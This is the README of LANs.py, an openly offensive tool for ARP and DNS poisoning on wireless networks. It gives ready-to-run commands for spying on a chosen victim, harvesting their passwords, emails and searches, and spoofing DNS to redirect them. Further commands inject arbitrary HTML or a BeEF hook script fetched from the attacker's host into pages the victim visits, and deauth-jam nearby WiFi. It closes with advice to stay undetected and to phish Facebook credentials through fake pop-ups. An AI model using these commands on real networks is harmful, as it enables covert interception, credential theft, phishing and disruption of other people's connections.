 LANs.py
========

Automatically find the most active WLAN users then spy on one of them and/or inject arbitrary HTML/JS into pages they visit. Technically: multithreaded asynchronous packet parsing/injecting ARP/DNS poisoner.

Individually poisons the ARP tables of the target box, the router and the DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.

Also can be used to continuosly jam nearby WiFi networks. This has an approximate range of a 1 block radius, but this can vary based off of the strength of your WiFi card. 


Prereqs: Linux, python-scapy, python-nfqueue (nfqueue-bindings 0.4-3), aircrack-ng, python-twisted, BeEF (optional), nmap, nbtscan, and a wireless card capable of promiscuous mode if you choose not to use the -ip option

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.


All options:

``` shell
Python LANs.py  [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC]
                [-d] [-v] [-dns DNSSPOOF] [-a] [-set] [-p] [-na] [-n]
                [-i INTERFACE] [-r REDIRECTTO] [-rip ROUTERIP]
                [-rmac ROUTERMAC] [-pcap PCAP] [-s SKIP] [-ch CHANNEL]
                [-m MAXIMUM] [-no] [-t TIMEINTERVAL] [--packets PACKETS]
                [--directedonly] [--accesspoint ACCESSPOINT]
```

Usage
-----

### Common usage:

``` shell
python LANs.py -u -p
```
Active target identification which ARP spoofs the chosen target and outputs all the interesting non-HTTPS data they send or request. There's no -ip option so this will ARP scan the network, compare it to a live running promiscuous capture, and list all the clients on the network. Attempts to tag the targets with a Windows netbios name and prints how many data packets they are sending/receiving. The ability to capture data packets they send is very dependent on physical proximity and the power of your network card. Ctrl-C when you're ready and pick your target which it will then ARP spoof.


Supports interception and harvesting of data from the following protocols: HTTP, FTP, IMAP, POP3, IRC. Will print the first 135 characters of URLs visited and ignore URLs ending in .jpg, .jpeg, .gif, .css, .ico, .js, .svg, and .woff. Will also print all protocol username/passwords entered, searches made on any site, emails sent/received, and IRC messages sent/received. Screenshot: http://i.imgur.com/kQofTYP.png 

Running LANs.py without argument will give you the list of active targets and upon selecting one, it will act as a simple ARP spoofer.

### Another common usage:

``` shell
python LANs.py -u -p -d -ip 192.168.0.10
```

-d: open an xterm with driftnet to see all images they view

-ip: target this IP address and skip the active targeting at the beginning


### HTML injection:

``` shell
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits. This just wraps the argument in `<script>` tags so you can really enter any location of a javascript file. Attempts to insert it after the first </head> tag found in the page's HTML.


``` shell
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` tag and failing that, injects prior to the first `</head>` tag. This example will change the page title to 'Owned.'


### Read from pcap:

``` shell
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script.


### DNS spoofing
``` shell
python LANs.py -a -r 80.87.128.67
```
``` shell
python LANs.py -dns eff.org
```
Example 1: The -a option will spoof every single DNS request the victim makes and when used in conjuction with -r it will redirect them to -r's argument address. The victim will be redirected to stallman.org (80.87.128.67) no matter what they type in the address bar.  

Example 2: This will spoof the domain eff.org and subdomains of eff.org. When there is no -r argument present with the -a or -dns arguments the script will default to sending the victim to the attacker's IP address. If the victim tries to go to eff.org they will be redirected to the attacker's IP.

### Most aggressive usage:

``` shell
python LANs.py -v -d -p -n -na -set -a -r 80.87.128.67 -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```


### All options:

``` shell
python LANs.py -h
```
Normal Usage:

  * -b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js
  
  * -c 'HTML CODE': inject arbitrary HTML code into pages the victim visits; include the quotes when selecting HTML to inject
  
  * -d: open an xterm with driftnet to see all images they view
  
  * -dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com
  
  * -a: Spoof every DNS response the victim makes, effectively creating a captive portal page; -r option can be used with this
  
  * -r IPADDRESS: only to be used with the -dns DOMAIN option; redirect the user to this IPADDRESS when they visit DOMAIN
  
  * -u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting
  
  * -i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0
  
  * -ip: target this IP address
  
  * -n: performs a quick nmap scan of the target
  
  * -na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt
  
  * -p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received
  
  * -pcap PCAP_FILE: parse through all the packets in a pcap file; requires the -ip [target's IP address] argument
  
  * -rmac ROUTER_MAC: enter router MAC here if you're having trouble getting the script to automatically fetch it
  
  * -rip ROUTER_IP: enter router IP here if you're having trouble getting the script to automatically fetch it
  
  * -v: show verbose URLs which do not truncate at 150 characters like -u

Wifi Jamming:

  * -s MAC_Address_to_skip: Specify a MAC address to skip deauthing. Example: -s 00:11:BB:33:44:AA
  * -ch CHANNEL: Limit wifijammer to single channel
  * -m MAXIMUM: Maximum number of clients to deauth. Use if moving around so as to prevent deauthing client/AP pairs outside of current range. 
  * -no: Do not clear the deauth list when the maximum (-m) number of client/AP combos is reached. Must be used in conjunction with -m. Example: -m 10 -n
  * -t TIME_INTERVAL: Time between each deauth packet. Default is maximum. If you see scapy errors like 'no buffer space' try: -t .00001
  * --packets NUMBER: Number of packets to send in each deauth burst. Default is 1 packet. 
  * --directedonly: Don't send deauth packets to the broadcast address of APs and only send to client/AP pairs
  * --accesspoint ROUTER_MAC: Enter the MAC address of a specific AP to target. 

### Clean up

Upon receiving a Ctrl-C:

-Turns off IP forwarding

-Flushes iptables firewall

-Individually restores the router and victim's ARP tables



Technical details
------------------

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

***
* [danmcinerney.org](danmcinerney.org)
* [![Analytics](https://ga-beacon.appspot.com/UA-46613304-2/LANs.py/README.md)](https://github.com/igrigorik/ga-beacon)
